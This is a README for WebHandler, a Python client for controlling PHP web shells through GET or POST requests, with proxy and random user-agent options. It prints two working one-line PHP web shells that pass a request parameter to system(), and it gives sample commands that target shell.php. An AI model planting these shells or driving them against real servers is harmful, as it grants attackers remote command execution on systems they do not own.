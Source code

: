 WebHandler - command controller for PHP system function
---
![My image](http://s9.postimage.org/6u4546aov/icommand.png)  

### Info: ###
---
WebHandler is a command controller to handle PHP _program execution functions_ like system, passthru, exec and etc...  
The script tries to simulate Linux bash as it works from CLI.  
As of optional settings it supports HTTP proxy together with HTTP header values "User-Agent".  
It sends requests to the server through urllib/urllib2 [Python][] modules.   

* WebHandler works for **POST** and **GET** requests:
	- `<?php system($_GET['cmd']); ?>`  
	- `<?php system($_POST['cmd']); ?>`

### Usage: ###
---
* --url is a positional argument withing GET and POST requests:
    - python webhandler.py --url http://testserver.com/shell.php?cmd=  
    - python webhandler.py --url http://testserver.com/shell.php --method POST --parameter cmd
    - python webhandler.py -u http://testserver.com -p id --proxy http://127.0.0.1:8080  
    - python webhandler.py -u http://testserver.com/shell.php?cmd= --random-agent

[Python]: http://www.python.org/download/
__p.s.__
---
[argparse]: http://docs.python.org/library/argparse.html
If your [Python][]'s version < 7.X  
Then [argparse][] is required.  
To install it run:  
`easy_install argparse` **OR** `pip install argparse`

